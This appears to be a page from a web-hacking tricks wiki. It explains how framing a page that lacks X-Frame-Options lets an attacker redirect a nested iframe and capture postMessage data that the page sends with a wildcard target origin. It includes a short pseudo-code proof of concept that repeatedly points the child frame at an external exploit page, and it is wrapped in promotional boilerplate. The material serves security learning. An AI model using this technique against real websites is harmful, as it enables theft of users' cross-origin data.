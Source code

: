 # Steal postmessage modifying iframe location

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the [bytebreach repo](https://github.com/khulnasoft/bytebreach) and [bytebreach-cloud repo](https://github.com/khulnasoft/bytebreach-cloud)**.

</details>

## Changing child iframes locations

According to [**this writeup**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/), if you can iframe a webpage without X-Frame-Header that contains another iframe, you can **change the location of that child iframe**.

For example, if abc.com have efg.com as iframe and abc.com didn't have X-Frame header, I could change the efg.com to evil.com cross origin using, **`frames.location`**.

This is specially useful in **postMessages** because if a page is sending sensitive data using a **wildcard** like `windowRef.postmessage("","*")` it's possible to **change the location of the related iframe (child or parent) to an attackers controlled location** and steal that data.

```html
<html>
    <iframe src="https://docs.google.com/document/ID" />
    <script>
       //pseudo code
        setTimeout(function(){ exp(); }, 6000);

        function exp(){
          //needs to modify this every 0.1s as it's not clear when the iframe of the iframe affected is created 
          setInterval(function(){ 
              window.frames[0].frame[0][2].location="https://geekycat.in/exploit.html";
          }, 100);
        }
    </script>
</html>
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the [bytebreach repo](https://github.com/khulnasoft/bytebreach) and [bytebreach-cloud repo](https://github.com/khulnasoft/bytebreach-cloud)**.

</details>
